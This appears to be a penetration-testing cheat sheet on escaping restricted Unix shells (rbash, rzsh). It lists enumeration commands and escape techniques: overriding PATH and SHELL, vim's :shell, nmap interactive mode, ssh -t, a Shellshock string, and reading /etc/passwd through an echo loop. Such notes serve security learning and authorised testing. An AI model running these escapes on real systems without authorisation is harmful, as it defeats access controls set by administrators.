 ```yaml
---
title: Restricted Shell (rbash, rzsh) Bypass
description: The restricted shell is a Unix shell that restricts some of the capabilities available to an interactive user session.
tags:
    - SSH
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2023-03-23
draft: false
---
```


After logged in a shell, sometimes we faced the error such as below when executing commands.

```bash
-rbash: cd: restricted
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

The target system uses a **restricted shell** so we may not be able to execute commonly used commands e.g. ls, cd, etc.   
We need to bypass the restriction First.

<br />

## Command Enumeration

First check what commands can we execute.  
Try running varied commands.

```sh
awk 'BEGIN {system("/bin/sh")}'
bash
cat
cd
cp
declare
echo
echo $PATH
echo $SHELL
echo /usr/bin/*
echo /home/<username>/bin/*
echo "bash -i" | tee rbypass.sh
env
export
find
find / -name foobar -exec /bin/sh \;
ftp
git
less
ls
nano
nmap
printenv
printf
# List all files in current directory
printf '%s\n' *(D)
pwd
set
sudo
sudo -l
tar
touch
vi
vim
whereis
which
whoami
zip

# Programming languages
perl
php
python
python2
python3
python3.x
ruby

# Commands with absolute path
/bin/bash
/bin/sh
/usr/bin/cat
/usr/bin/ls


# Special characters
>
>>
<
|
&
$
$(whoami)
;
:
'
"
`
```

<br />

## How to Bypass

### Update Environment Variables

If we can execute **‘export’** command and the desired environment variable (**PATH, SHELL**, etc.) is not readonly, we can update variables.

```bash
export SHELL=/bin/bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### Autocomplete to List Directories

We can see files and directories in the current directory by inputting the following path and entering **“Tab”** key.

```bash
./.
```

### Copy Shell Command

If we can execute **‘cp’** command, we can copy **/bin/bash** or **/bin/sh** to the current directory.

```bash
cp /bin/bash .
cp /bin/sh .
```

### List/Read Files

If we can use ‘echo’ or ‘printf’ command, we can list all files or read files.

1. **List**

```bash
# List all files
echo /*
echo /.* # list hidden files
echo /home/<username>/*
echo /home/<username>/.* # list hidden files

# List all files in current directory
printf '%s\n' *(D)
```

2. **Read**

```bash
while read line; do echo $line; done < /etc/passwd; echo $line
```

### Nmap

If we can use nmap command, we can escape the restricted shell with the interactive mode.

```bash
nmap --interactive
nmap> !sh
```

### Vi/Vim Editor

If we can use ‘vi’ or ‘vim’ command, we can update the SHELL variable in the vi/vim editor.

```bash
vim # or vi

# In vi/vim editor
:set shell=/bin/bash
:shell
```

### SSH Flags

```bash
# -t: Force pseudo-terminal allocation
ssh <user>@<ip> -t "/bin/bash"
ssh <user>@<ip> -t "/bin/sh"
ssh <user>@<ip> -t "bash --noprofile"
# Shellshock
ssh <user>@<ip> "() {:;}; /bin/bash"
```

If we can enter the shell, run tab-completion by pushing **“Tab”** key.  
We may be able to retrieve commands available.